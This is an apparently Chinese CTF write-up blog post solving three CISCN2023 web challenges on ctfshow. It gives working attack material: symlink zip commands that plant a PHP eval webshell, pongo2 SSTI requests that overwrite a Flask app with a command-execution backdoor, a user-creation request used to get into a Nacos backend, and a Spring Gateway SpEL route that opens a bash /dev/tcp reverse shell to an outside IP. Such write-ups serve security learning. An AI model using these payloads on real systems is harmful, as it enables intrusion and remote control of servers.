









+++
title = "CISCN2023"
slug = "ciscn2023"
description = "很有教学意义的题目"
date = "2024-12-03T16:03:53"
lastmod = "2024-12-03T16:03:53"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["ssti", "CC"]
+++

# 0x02 question

## Unzip

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

$finfo = finfo_open(FILEINFO_MIME_TYPE);
if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
    exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
};

//only this!
```

拿到源码之后看到的就是

这里的unzip覆盖文件可以写入恶意木马，软链接即可

```shell
mkdir zip
cd zip
ln -s /var/www/html link
zip --symlinks link.zip link
# 这是软链接部分
rm link
mkdir link
cd link
echo "<?php eval(\$_POST['a']); phpinfo(); ?>" > shell.php
cd ../
zip -r shell.zip link
```

然后先上传`link.zip`再上传`shell.zip`就getshell了

## go_session

一个go的SSTI，不会，现学，代码和人机一起慢慢看

```go
// main.go
package main

import (
	"github.com/gin-gonic/gin"
	"main/route"
)

func main() {
	r := gin.Default()
	r.GET("/", route.Index)
	r.GET("/admin", route.Admin)
	r.GET("/flask", route.Flask)
	r.Run("0.0.0.0:80")
}

```

```go
// route.go
package route

import (
	"github.com/flosch/pongo2/v6"
	"github.com/gin-gonic/gin"
	"github.com/gorilla/sessions"
	"html"
	"io"
	"net/http"
	"os"
)

var store = sessions.NewCookieStore([]byte(os.Getenv("SESSION_KEY")))

func Index(c *gin.Context) {
	session, err := store.Get(c.Request, "session-name")
	if err != nil {
		http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
		return
	}
	if session.Values["name"] == nil {
		session.Values["name"] = "guest"
		err = session.Save(c.Request, c.Writer)
		if err != nil {
			http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
			return
		}
	}

	c.String(200, "Hello, guest")
}

func Admin(c *gin.Context) {
	session, err := store.Get(c.Request, "session-name")
	if err != nil {
		http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
		return
	}
	if session.Values["name"] != "admin" {
		http.Error(c.Writer, "N0", http.StatusInternalServerError)
		return
	}
	name := c.DefaultQuery("name", "ssti")
	xssWaf := html.EscapeString(name)
	tpl, err := pongo2.FromString("Hello " + xssWaf + "!")
	if err != nil {
		panic(err)
	}
	out, err := tpl.Execute(pongo2.Context{"c": c})
	if err != nil {
		http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
		return
	}
	c.String(200, out)
}

func Flask(c *gin.Context) {
	session, err := store.Get(c.Request, "session-name")
	if err != nil {
		http.Error(c.Writer, err.Error(), http.StatusInternalServerError)
		return
	}
	if session.Values["name"] == nil {
		if err != nil {
			http.Error(c.Writer, "N0", http.StatusInternalServerError)
			return
		}
	}
	resp, err := http.Get("http://127.0.0.1:5000/" + c.DefaultQuery("name", "guest"))
	if err != nil {
		return
	}
	defer resp.Body.Close()
	body, _ := io.ReadAll(resp.Body)

	c.String(200, string(body))
}

```

映入眼帘的就两个路由一个admin一个flask然后框架是pongo2

先拿到session准备伪造

```http
GET /admin?name={{g}} HTTP/1.1
Host: 5b479c2a-b5da-4fe2-a9cc-9f4290b59ebe.challenge.ctf.show
Cookie: cf_clearance=KcjzSGX28QAU_hrso.bynTyEoPjvPJlvYZUjqHbcOgI-1731670957-1.2.1.1-hY5lsEw8TD.Sg1EJZ5oJiTfSSburMyTpwJOpx6q6y6XI2vX59TlPLdJfH_PzRRhPzqBXwbmfu1zyoTfeKCD8398RBWdrfpjDmT9ml94kZMHtUC9KuLm1ET6vGb_hFPzvOrcnTaYEMPtuiAqFRXRrjvhxk22DY2z7CbXJradugMDh7fQRcvAbRqcv3Gqxtaey2WuHdNmmPiXo01E0nGw11DZ.o10opHlykwvu5PMUnnx2knj_KxBTre3Jlje.TEJBR.iHu12MWLJS8_vLUsNU3zpfX4tzGRTMdYhp3easZQZHWunOQ648ZjmHCrWjCKBLtq9hFV8s521UaXop36Tpub9rWUZgpKsViJ4EZJWYfuDmkqom8pfRpClMz2UaTZ_G; session-name=MTczMzI4NTk0N3xEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV2QxWlhOMHw72erPA0hWtl22vKUnj0uucA6wUNFLvG6SWVWMc1CIyA==
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Sec-Fetch-User: ?1
Priority: u=0, i
Connection: close


```

本来想问flask来伪造的，结果试试了这个框架好像确实是不太一样，那么就本地起一个环境来伪造了

配置一下go的环境  [go](https://go.dev/dl/)

环境变量啥的大家肯定会这里写个折磨我的，就是代理，我搞了十来分钟其实最后就是很简单的两个命令

```shell
$env:GOPROXY = "https://goproxy.cn"
go env GOPROXY
```

如果设置成功了就行了

```shell
go mod tidy
# 初始化依赖
go run main.go
```



成功拿到了

```
MTczMzI4Nzg0NHxEWDhFQVFMX2dBQUJFQUVRQUFBal80QUFBUVp6ZEhKcGJtY01CZ0FFYm1GdFpRWnpkSEpwYm1jTUJ3QUZZV1J0YVc0PXy6qWFSI2QLYMv2wCu-yo2yv1gPWlg9MKSCpy7ogDCghg==
```

那么再次看代码，哪里是SSTI的点



但是flask路由有啥用呢那，可以报错先



发现就这个不一样，其他的都是`app.py`，我记得之前是有做到一道flask的题目可以直接覆盖文件，然后RCE，这里估计也差不多，那么寻找一下那个函数可以进行覆盖,回头看看这个源码

```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def index():
    name = request.args.get('name', 'Guest')  # 提供默认值
    return name + " no ssti"

if __name__ == "__main__":
    app.run(host="127.0.0.1", port=5000, debug=True)

```

开启了debug也是有机可乘的，热加载

```http
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.HandlerName()|last),c.Request.Referer())}} HTTP/1.1
Host: 6831d804-b61a-4ebb-97d6-36b305e23c83.challenge.ctf.show
Referer: /app/server.py
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Cookie: session-name=MTczMzI4Nzg0NHxEWDhFQVFMX2dBQUJFQUVRQUFBal80QUFBUVp6ZEhKcGJtY01CZ0FFYm1GdFpRWnpkSEpwYm1jTUJ3QUZZV1J0YVc0PXy6qWFSI2QLYMv2wCu-yo2yv1gPWlg9MKSCpy7ogDCghg==
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close
Content-Length: 428

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="n"; filename="server.py"
Content-Type: test/plain

from flask import *
import os
app = Flask(__name__)

@app.route('/')
def index():
    name = request.args['name']
    file=os.popen(name).read()
    return file

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000, debug=True)
------WebKitFormBoundary7MA4YWxkTrZu0gW--

```

这个包写了好久，原因就是正常的文件上传都是POST请求而这里如果是POST就直接变成404，后面发现GET反而可以



```http
GET /flask?name=?name=cat${IFS}/th1s_1s_f13g HTTP/1.1
Host: 6831d804-b61a-4ebb-97d6-36b305e23c83.challenge.ctf.show
Cookie: KcjzSGX28QAU_hrso.bynTyEoPjvPJlvYZUjqHbcOgI-1731670957-1.2.1.1-hY5lsEw8TD.Sg1EJZ5oJiTfSSburMyTpwJOpx6q6y6XI2vX59TlPLdJfH_PzRRhPzqBXwbmfu1zyoTfeKCD8398RBWdrfpjDmT9ml94kZMHtUC9KuLm1ET6vGb_hFPzvOrcnTaYEMPtuiAqFRXRrjvhxk22DY2z7CbXJradugMDh7fQRcvAbRqcv3Gqxtaey2WuHdNmmPiXo01E0nGw11DZ.o10opHlykwvu5PMUnnx2knj_KxBTre3Jlje.TEJBR.iHu12MWLJS8_vLUsNU3zpfX4tzGRTMdYhp3easZQZHWunOQ648ZjmHCrWjCKBLtq9hFV8s521UaXop36Tpub9rWUZgpKsViJ4EZJWYfuDmkqom8pfRpClMz2UaTZ_G; session-name=MTczMzI5MDM1M3xEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV2QxWlhOMHwDnFNeN_6wcw8t3hy9pgTpQqiaYtjCKUJR3Oylpxe5gQ==
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Sec-Fetch-User: ?1
Priority: u=0, i
Connection: close


```

那么这个payload是从何而来的呢，首先我们知道框架为`pongo2`那么他和Django是有部分一样的地方的，准确来说应该是语法一致，那么我们也就可以调用函数，函数怎么找呢，我们在打本地的时候知道了那几个重要的文件

```
go: downloading github.com/gin-gonic/gin v1.9.0
go: downloading github.com/flosch/pongo2/v6 v6.0.0
go: downloading github.com/gorilla/sessions v1.2.1
```

那么我们去找，在github里面的`context.go`，其实也就是寻找函数了，不得不说果然文件的命名还是比较重要的

直接进来之后全局搜索file



其中这个FormFile要求了常见的上传文件数据包所需要的东西multipart 表单数据等等，那么这个就是解析文件的，再找一个上传文件的，原来这两个挨着的



那现在也就是要调用这两个方法，我们要明白这两个函数的参数是啥(零基础go所以做的麻烦)

```go
func (c *Context) SaveUploadedFile(file *multipart.FileHeader, dst string, perm ...fs.FileMode) error
// *multipart.FileHeader 是一个指向 multipart.FileHeader 结构的指针，通常是从 HTTP 请求中获取的文件上传的元数据。
// string 类型，表示目标路径（即保存路径）。
// perm ...fs.FileMode 是一个可变参数，表示文件或目录的权限模式。默认使用 0o750（即文件拥有者有读、写和执行权限，组用户有读和执行权限，其他用户无权限）。

func (c *Context) FormFile(name string) (*multipart.FileHeader, error)
// *multipart.FileHeader 这是一个指向 multipart.FileHeader 的指针，包含了关于上传文件的信息，如文件名、文件大小和 MIME 类型等。
```


```go
//读文件



//写文件
//这几个payload其实大同小异，只是后三个使用了过滤器（c.HandlerName的值为 main/route.Admin ）
{{c.SaveUploadedFile(c.FormFile(c.Request.Host),c.Request.Referer())}}
{{c.SaveUploadedFile(c.FormFile(c.HandlerName()|last),c.Request.Referer())}}
{{c.SaveUploadedFile(c.FormFile(form),c.Request.Referer())}}&m=file
{{c.SaveUploadedFile(file,path)}}&m=file&n=/app/server.py
```

仔细一看其实就是限定了`Content-Disposition`头，那么这里就很好写包了，比如第一个可以这么写

```http
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.Request.Host),c.Request.Referer())}} HTTP/1.1
Host: baozongwi
Referer: /app/server.py
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Cookie: session-name=MTczMzI4Nzg0NHxEWDhFQVFMX2dBQUJFQUVRQUFBal80QUFBUVp6ZEhKcGJtY01CZ0FFYm1GdFpRWnpkSEpwYm1jTUJ3QUZZV1J0YVc0PXy6qWFSI2QLYMv2wCu-yo2yv1gPWlg9MKSCpy7ogDCghg==
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close
Content-Length: 428

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="baozongwi"; filename="server.py"
Content-Type: test/plain

from flask import *
import os
app = Flask(__name__)

@app.route('/')
def index():
    name = request.args['name']
    file=os.popen(name).read()
    return file

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000, debug=True)
------WebKitFormBoundary7MA4YWxkTrZu0gW--

```

这道题还是很有意思的，学到了一些东西和技巧

## BackendService

是一个java的题目，拿到源码先反编译



看到有这个配置，发现内部配置服务有个8848的gateway服务，id为backcfg

那我们可以直接覆盖弹shell



首先先进后台是个NDAY，创建用户

```http
POST /v1/auth/users HTTP/1.1
Host: 0cdc2456-d45c-4861-a357-177da4d9e66a.challenge.ctf.show
Cookie: KcjzSGX28QAU_hrso.bynTyEoPjvPJlvYZUjqHbcOgI-1731670957-1.2.1.1-hY5lsEw8TD.Sg1EJZ5oJiTfSSburMyTpwJOpx6q6y6XI2vX59TlPLdJfH_PzRRhPzqBXwbmfu1zyoTfeKCD8398RBWdrfpjDmT9ml94kZMHtUC9KuLm1ET6vGb_hFPzvOrcnTaYEMPtuiAqFRXRrjvhxk22DY2z7CbXJradugMDh7fQRcvAbRqcv3Gqxtaey2WuHdNmmPiXo01E0nGw11DZ.o10opHlykwvu5PMUnnx2knj_KxBTre3Jlje.TEJBR.iHu12MWLJS8_vLUsNU3zpfX4tzGRTMdYhp3easZQZHWunOQ648ZjmHCrWjCKBLtq9hFV8s521UaXop36Tpub9rWUZgpKsViJ4EZJWYfuDmkqom8pfRpClMz2UaTZ_G
Content-Length: 23
Sec-Ch-Ua-Platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
Origin: https://84645743-8bd6-4d0d-9550-c5c1a176a655.challenge.ctf.show
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://84645743-8bd6-4d0d-9550-c5c1a176a655.challenge.ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=1, i
Connection: close

username=wi&password=wi
```

```
spring:
  cloud:
    gateway:
      routes:
        - id: exam
          order: 0
          uri: lb://service-provider
          predicates:
            - Path=/echo/**
          filters:
            - name: AddResponseHeader
              args:
                name: result
                value: "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'bash','-c','bash -i >& /dev/tcp/156.238.233.9/9999 0>&1'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
```



